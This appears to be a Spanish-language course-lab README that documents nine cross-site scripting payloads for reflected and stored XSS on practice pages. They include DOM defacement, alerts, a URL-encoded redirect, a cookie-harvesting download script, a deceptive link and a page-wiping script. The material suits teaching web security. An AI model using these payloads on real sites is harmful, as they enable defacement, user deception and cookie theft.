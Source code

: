 # Explots desarrollados

Los siguientes exploits están hechos conforme a la especificación para la Práctica03.
Su ejecución consta de introducir las etiquetas en los campos correspondientes; en 
el caso de `reflectedXSS.php` basta con introducir los scripts en el campo de búsqueda 
(para los primeros cinco scripts). En el caso de `storeXSS.php`, los scripts correspondientes
a dicha página deben ir en el campo de comentarios.

1. Para este primer inciso lo que realizamos fue una simple modificación 
   al DOM de la página, utilizando un script; en este, mediante la variable
    `document` podemos manipular dicho DOM; en particular, para nuestros
    propósitos utilizamos el método `.write()`, pasando como cadena 
    una etiqueta de header con el texto solicitado
    ```js
    <script>
    let elem = "<h1 align='center' style='color:red;'><i>Esta pagina es vulnearable</i></h1>";
    document.write(elem)
    </script>
    ```
    
2. Este otro exploit tiene un principio similar. Pasaremos la función 
   `alert()` con una cadena que nosotros deseemos envuelta en una etiqueta
   de script. 
   ```js
   <script>
   alert("Estas siendo hackeado")
   </script>
   ```
   
3. De manera análoga al primer inciso, podemos añadir hipervínculos 
   mediante etiquetas y sobreescribiendo el DOM.
   ```js
   <script>
   let elem = "<h3><a style='color:red;' href='https://www.amazon.com.mx/'>Click aqui para ganar increibles    premios!</a></h3>";
   document.write(elem)
   </script>
   ```
   
4. Este script es un poco más elaborado; podemos jugar con las capacidades
   de Javascrip para realizar un temporizador que, cada medio segundo, cambie los
   atributos de un elemento que nosotros mismos inyectemos al DOM.
   ```js 
   <script>
   document.write("<div id='blink' style='color:red; background-color:yellow; text-align:center'>Vulnerable a XSS CUIDADO!</div>");
   let blinkdiv = document.getElementById('blink');
   let isVisible = true;
   setInterval(function(){if(isVisible){blink.style.visibility = 'hidden';} else {blink.style.visibility = 'visible';} isVisible=!isVisible;}, 500);
   </script>
   ```
   La modificación del DOM y su ejecución modifican el mismo para desplegar el elemento creado adjunto a la
   lógica de Javascrip. 
     
5. Para este exploit, utilizaremos la siguiente cadena:
   ```js 
   <script>
   document.location.replace('https://en.wikipedia.org/wiki/Cross-site_scripting')
   </script>
   ```
   El atributo `location` nos da información sobre la dirección donde se encuentra `document` (la URL). Mediante
   el método `.replace()`, podemos disparar redireccionamientos arbitrarios. La codificación de esta cadena es
   la siguiente:
   ```
   %3C%73%63%72%69%70%74%3E%0A%64%6F%63%75%6D%65%6E%74%2E%6C%6F%63%61%74%69%6F%6E%2E%72%65%70%6C%61%63%65%28%27%68%74%74%70%73%3A%2F%2F%65%6E%2E%77%69%6B%69%70%65%64%69%61%2E%6F%72%67%2F%77%69%6B%69%2F%43%72%6F%73%73%2D%73%69%74%65%5F%73%63%72%69%70%74%69%6E%67%27%29%0A%3C%2F%73%63%72%69%70%74%3E
   ```
   De esta manera, al concatenar la cadena anterior al URL mediante una query de búsqueda, obtendremos 
   el resultado deseado.
   
   
6. Para el caso de este exploit usamos lo siguiente :
	<script>
	function saveCookie(cookie) {
	var blob = new Blob([cookie], { type: 'text/plain'});
	var url  = URL.createObjectURL(blob);
	var a    = document.createElement('a');
	a.href   = url;
	a.download = 'cookies.txt';
	a.click();
	URL.revokeObjectURL(url);
	}
	saveCookie(document.cookie);
	</script>

	Lo que hace es que recupera las cookies del navegador del usuario, las guarda en un archivo de texto llamado "cookies.txt" y lo descarga automáticamente sin el consentimiento del usuario.



7. Para el siguiente usamos :
 <p> Checa estos audifonos: <a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ"> https://www.headphpnesultra.com/ </a>
 Este exploit modifica el texto de un enlace (<a>) en una página web para hacer que parezca que dirige a un sitio web legítimo, como   "https://www.headphonesultra.com/", pero en realidad, al hacer clic en el enlace, redirige al usuario a un video de YouTube oculto,   utilizando el engaño para ocultar la URL verdadera.

8. Luego usamos :
  <script>alert("has sido hackeado");</script>
   Este exploit simplemente muestra un mensaje de alerta al usuario al cargar la página. En el código proporcionado, se inserta un script de 					JavaScript que muestra el mensaje "has sido hackeado" utilizando la función alert(). Esto se realiza al cargar la página, sin requerir interacción del usuario.


9. Por ultimo :
   <script>document.getElementsByTagName('html')[0].remove();</script>

Este script de JavaScript elimina todo el contenido dentro de la etiqueta <html> de la página web. Al ejecutarse, elimina todo el contenido visible en la ventana del navegador, incluyendo cualquier elemento HTML, texto, imágenes, etc. Esto puede resultar en que la página se vuelva en blanco o simplemente vacía, dependiendo de la estructura del documento HTML original.

Este script se utilizó en dos archivos diferentes, "reflectedxss.php" y "storeXss.php", con la intención de eliminar todo el contenido de la página. Esto puede ser utilizado como un ataque de denegación de servicio (DoS) para interrumpir el funcionamiento normal de un sitio web.
